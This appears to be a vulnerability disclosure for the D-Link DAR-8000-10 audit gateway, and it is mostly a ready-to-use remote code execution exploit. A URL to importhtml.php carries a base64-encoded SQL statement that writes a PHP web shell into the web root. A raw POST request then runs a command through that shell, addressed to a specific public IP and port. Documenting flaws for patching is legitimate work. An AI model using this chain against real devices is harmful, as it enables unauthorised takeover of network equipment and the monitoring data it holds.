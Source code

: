 The D-LINK-DAR-8000-10 Online behavior audit gateway has rce vulnerabilities

official website:http://www.dlink.com.cn/

version:D-LINK  DAR-8000-10

See the login page.

![图片](https://github.com/PumpkinBridge/cve/assets/139355470/b82244f0-4d4e-4b89-ab81-cba76871f4ac)

Construct url:
https://ip:port/importhtml.php?type=exporthtmlmail&tab=tb_RCtrlLog&sql=c2VsZWN0IDB4M2MzZjcwNjg3MDIwNjU2MzY4NmYyMDczNzk3Mzc0NjU2ZDI4MjQ1ZjUwNGY1MzU0NWIyMjYzNmQ2NDIyNWQyOTNiM2YzZSBpbnRvIG91dGZpbGUgJy91c3IvaGRkb2NzL25zZy9hcHAvc3lzMS5waHAn
After downloading
Then execute poc:
```
POST /app/sys1.php HTTP/1.1
Host: 60.22.74.195:8443
Cookie: 
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: none
Sec-Fetch-User: ?1
Te: trailers
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 6

cmd=id
```
![图片](https://github.com/PumpkinBridge/cve/assets/139355470/63a02104-208f-4579-830f-3cd99a1178c8)

